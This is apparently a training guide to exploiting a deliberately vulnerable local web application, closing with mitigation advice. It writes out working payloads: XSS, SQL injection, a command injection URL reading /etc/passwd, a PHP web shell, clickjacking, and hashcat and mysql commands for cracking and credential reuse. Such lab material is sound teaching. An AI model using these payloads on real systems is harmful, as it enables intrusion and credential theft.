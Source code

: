 # **Exploiting the Vulnerable Frontend and Backend**

This guide provides step-by-step instructions to exploit vulnerabilities intentionally introduced in the frontend and backend of the application. These examples are for **educational purposes only** and should not be used for malicious activities.

---

## **Frontend Exploits**

### **1. Cross-Site Scripting (XSS)**

#### **Exploit**
1. Navigate to the "Post a Comment" section on the application.
2. Enter the following payload in the comment text box:
   ```<script>alert('XSS Exploited!');</script>```
3. Click the **Post** button.
4. Observe an alert box popping up, demonstrating a successful XSS attack.

---

### **2. Insecure Local Storage**

#### **Exploit**
1. Enable the "Remember Me" option while logging in.
2. Open the browser’s Developer Tools:
   - In Chrome/Edge: Press `F12` or `Ctrl+Shift+I` and navigate to the "Application" tab.
   - In Firefox: Press `F12` or `Ctrl+Shift+I` and go to the "Storage" section.
3. Expand the **Local Storage** option and select the domain.
4. Extract the stored `username` and `password` values in plain text for reuse.

---

### **3. Sensitive Information in the DOM**

#### **Exploit**
1. Open the browser’s Developer Tools and go to the "Elements" tab.
2. Search for the exposed API key using the term `API Key`.
3. Copy the API key, such as `123456-SECRET-API-KEY`, for misuse in unauthorized API calls.

---

### **4. Improper Error Handling**

#### **Exploit**
1. Trigger an invalid backend request by entering an incorrect or malformed value in the login form.
   - For example, enter `username: 'invaliduser'` and `password: 'invalidpassword'`.
2. Observe raw error messages revealing backend details (e.g., `Cannot read property 'password' of undefined`).
3. Use this information to craft targeted backend attacks.

---

### **5. Clickjacking**

#### **Exploit**
1. Create an HTML file named `clickjacking.html` with the following content:
   ```html
   <html>
     <body>
       <h1>Clickjacking Demo</h1>
       <iframe src="http://localhost:3000" width="800" height="600" style="opacity: 0.5;"></iframe>
     </body>
   </html>
   ```
2. Open the file in a browser.
3. Interact with the embedded application through the iframe to observe how user inputs can be hijacked.

---

### **6. Excessive Client-Side Trust**

#### **Exploit**
1. Open the browser’s Developer Tools and go to the "Console" tab.
2. Execute the following command to bypass client-side validation:
   ```javascript
   document.querySelector('input[name="username"]').removeAttribute('required');
   ```
3. Submit the form without filling in the required fields.
4. Observe that the form submission is processed despite missing values.

---

## **Backend Exploits**

### **1. SQL Injection**

#### **Exploit**
1. Navigate to the login page.
2. Enter the following payload as the username:
   ```' OR 1=1 --```
3. Enter any value for the password.
4. Observe that you are logged in without valid credentials.

---

### **2. Hardcoded Credentials**

#### **Exploit**
1. Open the `backend/index.js` file.
2. Locate the database credentials:
   ```javascript
   const db = mysql.createConnection({
     host: 'localhost',
     user: 'root',
     password: 'password123',
     database: 'testdb',
   });
   ```
3. Use these credentials to directly access the database with tools like `mysql`:
   ```bash
   mysql -u root -p password123 -h localhost testdb
   ```

---

### **3. Weak Password Hashing**

#### **Exploit**
1. Extract a password hash from the database:
   - Example: `5f4dcc3b5aa765d61d8327deb882cf99`.
2. Use an MD5 hash cracking tool like `hashcat`:
   ```bash
   hashcat -m 0 -a 3 5f4dcc3b5aa765d61d8327deb882cf99
   ```
3. Observe the plaintext password (`password`) revealed.

---

### **4. Command Injection**

#### **Exploit**
1. Access the `/exec` endpoint with the following payload:
   ```http
   http://localhost:5000/exec?cmd=ls;cat /etc/passwd
   ```
2. Observe that the command executes and outputs sensitive server information.

---

### **5. File Upload Without Validation**

#### **Exploit**
1. Navigate to the file upload functionality.
2. Upload a PHP web shell with the following content:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
3. Access the uploaded file via the browser:
   ```http
   http://localhost/uploads/webshell.php?cmd=ls
   ```
4. Execute arbitrary commands on the server.

---

### **6. Sensitive Information Exposure**

#### **Exploit**
1. Access the `/debug` endpoint.
2. Observe environment variables and sensitive configurations, such as database credentials or API keys.

---

## **Mitigation Recommendations**

- **Input Validation:** Sanitize all user inputs on both frontend and backend to prevent XSS and SQL Injection.
- **Secure Credentials:** Use environment variables to store sensitive credentials instead of hardcoding them.
- **Password Security:** Implement strong password hashing algorithms like bcrypt or Argon2.
- **Restrict Commands:** Validate and sanitize user input for shell commands or avoid executing commands entirely.
- **File Validation:** Validate file types and sanitize filenames before saving uploads.
- **Error Handling:** Display generic error messages and log detailed ones on the server.
- **CSP and X-Frame-Options:** Add headers to protect against XSS and clickjacking.

---

**Note:** These exploits are intended to demonstrate vulnerabilities for educational purposes. Do not use them in unauthorized systems. Always secure your applications!